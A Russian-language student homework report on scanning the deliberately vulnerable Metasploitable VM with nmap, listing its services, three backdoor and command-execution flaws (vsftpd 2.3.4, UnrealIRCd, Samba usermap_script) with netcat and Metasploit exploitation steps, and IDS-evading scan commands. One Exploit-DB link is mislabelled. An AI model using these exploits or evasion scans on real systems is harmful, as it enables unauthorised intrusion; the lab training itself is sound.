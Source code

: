 # Домашнее задание к занятию "`Уязвимости и атаки на информационные системы`" - `Барышков Михаил`

## Задание 1

Скачайте и установите виртуальную машину Metasploitable: <https://sourceforge.net/projects/metasploitable/>.

Это типовая ОС для экспериментов в области информационной безопасности, с которой следует начать при анализе уязвимостей.

Просканируйте эту виртуальную машину, используя **nmap**.

Попробуйте найти уязвимости, которым подвержена эта виртуальная машина.

Сами уязвимости можно поискать на сайте <https://www.exploit-db.com/>.

Для этого нужно в поиске ввести название сетевой службы, обнаруженной на атакуемой машине, и выбрать подходящие по версии уязвимости.

Ответьте на следующие вопросы:

- Какие сетевые службы в ней разрешены?
- Какие уязвимости были вами обнаружены? (список со ссылками: достаточно трёх уязвимостей)
  
*Приведите ответ в свободной форме.*

---

## Решение 1

1. **Сетевые службы, разрешенные на виртуальной машине:**

![фото1](img/img1.png)
![Фото2](img/img2.png)

В результате сканирования `nmap -sV -A` были обнаружены следующие открытые порты и службы:

- **21/tcp** - FTP (vsftpd 2.3.4)
  - Анонимный вход разрешен (Anonymous FTP login allowed).
- **22/tcp** - SSH (OpenSSH 4.7p1)
- **23/tcp** - Telnet (Linux telnetd)
- **25/tcp** - SMTP (Postfix)
- **53/tcp** - DNS (ISC BIND 9.4.2)
- **80/tcp** - HTTP (Apache 2.2.8)
- **111/tcp** - RPCbind
- **139/tcp, 445/tcp** - Samba (SMB, версия 3.0.20-Debian)
- **3306/tcp** - MySQL (5.0.51a-3ubuntu5)
- **5900/tcp** - VNC (протокол 3.3)
- **6667/tcp** - IRC (UnrealIRCd 3.2.8.1)

2. **Обнаруженные уязвимости (3 примера):**

     1. **Уязвимость в vsftpd 2.3.4 (Backdoor Command Execution)**

    - **Описание:** В версии vsftpd 2.3.4 присутствует бэкдор, который позволяет злоумышленнику выполнить произвольные команды на сервере.
    - **[Ссылка: Exploit-DB: 17491](https://www.exploit-db.com/exploits/16922)**
    - **Метод эксплуатации:**

        ```sh
        nc <TARGET_IP> 21
        USER anyuser:)  
        PASS anypass  
        ```

    После этого бэкдор открывает порт 6200, через который можно получить shell.

    2. **Уязвимость в UnrealIRCd 3.2.8.1 (Backdoor Command Execution)**

     - **Описание:** В данной версии UnrealIRCd присутствует скрытый бэкдор, добавленный злоумышленниками.
     - **[Ссылка: Exploit-DB: 16922](https://www.exploit-db.com/exploits/16922)**
     - **Метод эксплуатации:**

        ```sh
        nc <TARGET_IP> 6667  
        AB; whoami
        ```

    Сервер выполнит команду whoami и вернет результат.

    3. **Уязвимость в Samba 3.0.20 (Username Map Script Command Execution)**

    - **Описание:** Позволяет выполнить произвольные команды через некорректную обработку параметров в username map script.
    - **[Ссылка: Exploit-DB: 16320](https://www.exploit-db.com/exploits/16320)**
    - **Метод эксплуатации:**

        ```sh
        msfconsole  
        use exploit/multi/samba/usermap_script  
        set RHOSTS <TARGET_IP>  
        exploit
        ```  

    В результате получаем shell с правами root (на Metasploitable).

3. **Дополнительные замечания:**

    - **FTP (vsftpd 2.3.4):** Анонимный вход позволяет загружать/скачивать файлы без аутентификации.
    - **Samba 3.0.20:** Открытый доступ к общим папкам (/tmp).
    - **MySQL 5.0.51a:** Устаревшая версия с известными уязвимостями.
    - **Apache 2.2.8:** Возможны уязвимости типа Directory Traversal или RCE (например, через PHP-скрипты).

**Рекомендации:**

- Обновить все службы до актуальных версий.
- Запретить анонимный доступ к FTP и Samba.
- Отключить ненужные сервисы (Telnet, VNC).

## Задание 2

Проведите сканирование Metasploitable в режимах SYN, FIN, Xmas, UDP.

Запишите сеансы сканирования в Wireshark.

Ответьте на следующие вопросы:

- Чем отличаются эти режимы сканирования с точки зрения сетевого трафика?
- Как отвечает сервер?

*Приведите ответ в свободной форме.*

---

## Решение 2

## Отчет по сканированию Metasploitable различными методами Nmap

### 1. Сравнение режимов сканирования

| Метод       | Флаги TCP | Принцип работы                                                                 | Преимущества                          | Недостатки                          |
|-------------|-----------|-------------------------------------------------------------------------------|---------------------------------------|-------------------------------------|
| **SYN** (-sS) | SYN       | Отправка SYN, анализ ответа (SYN-ACK/RST)                                     | Быстрое, надежное                     | Требует root-прав                  |
| **FIN** (-sF) | FIN       | Отправка FIN, анализ ответа (RST/нет ответа)                                  | Обходит простые файрволы              | Менее надежное                      |
| **Xmas** (-sX)| FIN+PSH+URG | Аналогично FIN, но с дополнительными флагами                                 | Сложнее для детектирования           | Заметнее в сети                     |
| **UDP** (-sU) | UDP       | Отправка UDP-пакета, анализ ICMP-ответа                                       | Обнаруживает UDP-сервисы              | Очень медленное                     |

### 2. Поведение сервера при разных типах сканирования

#### SYN-сканирование

Клиент → Сервер: [SYN]
Сервер → Клиент: [SYN, ACK] (порт открыт)
Клиент → Сервер: [RST] (разрыв)
ИЛИ
Сервер → Клиент: [RST] (порт закрыт)

#### FIN-сканирование

Клиент → Сервер: [FIN]
Сервер → Клиент: [RST] (порт закрыт)
ИЛИ
Нет ответа (порт открыт)

#### Xmas-сканирование

Клиент → Сервер: [FIN, PSH, URG]
Сервер → Клиент: [RST] (порт закрыт)
ИЛИ
Нет ответа (порт открыт)

#### UDP-сканирование

Клиент → Сервер: [UDP-пакет]
Сервер → Клиент: [ICMP Port Unreachable] (порт закрыт)
ИЛИ
Нет ответа (порт открыт)

### 3. Практические наблюдения из Wireshark

- **SYN**: Четкие SYN-SYNACK-RST последовательности для открытых портов
- **FIN/Xmas**: Отсутствие ответа на открытые порты может давать ложные срабатывания
- **UDP**: Длительные паузы между проверками, ICMP-пакеты при закрытых портах

### 4. Рекомендации по использованию

1. **Для быстрого сканирования**: `nmap -sS -T4 <target>`
2. **Для скрытного сканирования**: `nmap -sF --max-retries 1 <target>`
3. **Для UDP-сервисов**: `nmap -sU -p 53,161,123 <target>`
4. **Для обхода IDS**: `nmap -sX --scan-delay 500ms <target>`

> **Примечание**: Все сканирования проводились на изолированной тестовой сети. В production-средах необходимо получать явное разрешение на проведение таких тестов.
